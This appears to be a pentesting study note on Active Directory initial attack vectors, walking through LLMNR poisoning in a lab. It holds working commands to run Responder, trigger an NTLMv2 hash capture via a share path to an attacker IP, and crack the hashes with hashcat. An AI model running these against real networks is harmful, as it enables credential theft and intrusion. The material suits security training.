



### Attacking AD - Initial Attack Vectors

### 1. NetBIOS and LLMNR Name Poisoning 

### 2. Relay attacks

### 3. MS17-010 (Eternal Blue)

### 4. Kerberoasting

### 5. mitm6

Resource: https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa

### LLMNR Poisoning (Link Local Multi-Cast Name Resolution)

**What is LLMNR?**
- Used to identify hosts when DNS fails to do so
- Previously NBT-NS (NetBIOS Name Service)
- Key Flaw is that the service utilises a user's username and NTLMv2 hash when appropriately responded to


Tools: ImPacket Toolkit - Responder https://github.com/fortra/impacket

1. Run Responder



Best time to run responder is first thing in the morning or right after lunch. It requires a lot of traffic. You need a lot of responses to try and capture hashes.

2. An event occurs



3. Receive hashes


4. Crack hashes

```sh
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```



**Using Responder**

```sh
responder -I eth0 -rdwv
```
- v - verbose 

With both the Windows Server and Windows machine started. On our Windows machine open up file share and enter:
```sh
\\<attacker-ip>
```
- Then hit enter and it should capture the hash

### Password Cracking with HashCat

